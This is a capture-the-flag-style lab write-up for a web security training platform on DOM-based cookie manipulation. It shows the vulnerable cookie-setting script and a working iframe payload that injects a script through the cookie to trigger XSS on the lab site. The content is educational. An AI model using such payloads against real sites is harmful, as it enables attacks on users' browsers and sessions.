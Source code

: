 # DOM-based cookie manipulation
# Objective
This lab demonstrates DOM-based client-side cookie manipulation.\
To solve this lab, inject a cookie that will cause XSS on a different page and call the `print()` function.\
You will need to use the exploit server to direct the victim to the correct pages.

# Solution
## Analysis
Website has `script` that creates new cookie `lastViewedProduct` with URL to last visited product page. On the home page there is `Last viewed product` button leads to URL from cookie.

|![](Images/image-8.png)|
|:--:| 
| *Cookie manipulation script* |
|![](Images/image-8.png)|
| *New cookie - lastViewedProduct* |
|![](Images/image-8.png)|
| *Last viewed product button* |

Vulnerable code:
```html
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

## Exploitation
The following payload uses `window.location` sink to perform DOM-based XSS attack. If `src` URL fails, `iframe` will fallback to the second URL.

|![](Images/image-15.png)|
|:--:| 
| *Testing basic XSS - provided payload was executed* |
|![](Images/image-14.png)|
| *Exploit server configuration* |

Final payload:
```html
<iframe src="https://0a7300e303056319823147cb006b00de.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a7300e303056319823147cb006b00de.web-security-academy.net/';window.x=1;">
```
